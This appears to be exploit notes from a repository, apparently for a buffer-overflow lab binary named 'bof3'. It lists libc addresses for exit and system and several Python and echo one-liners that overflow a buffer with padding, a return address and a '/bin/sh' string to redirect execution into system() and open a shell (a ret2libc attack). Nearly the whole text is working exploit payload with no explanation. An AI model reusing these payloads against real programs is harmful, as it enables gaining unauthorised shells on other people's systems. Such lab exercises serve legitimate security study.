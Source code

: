# address
0xf7e45f50 <exit>
0xf7e52e70 <system>

# 


# printf(buffer)
python3 -c 'print("A"*44 + "\\x50\\x83\\x04\\x08" + "BBBB" + "\\x60\\xa0\\x04\\x08")' | ./bof3

# system(ls)
(echo -e '/bin/sh\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x70\x2e\xe5\xf7BBBB\x60\xa0\x04\x08'; cat) | ./bof3

(echo -e '/bin/sh #AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x70\x2e\xe5\xf7BBBB\x60\xa0\x04\x08'; cat) | ./bof3

(echo -e '/bin/sh\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\xa1\xe5\xf7BBBB\x60\xa0\x04\x08'; cat) | ./bof3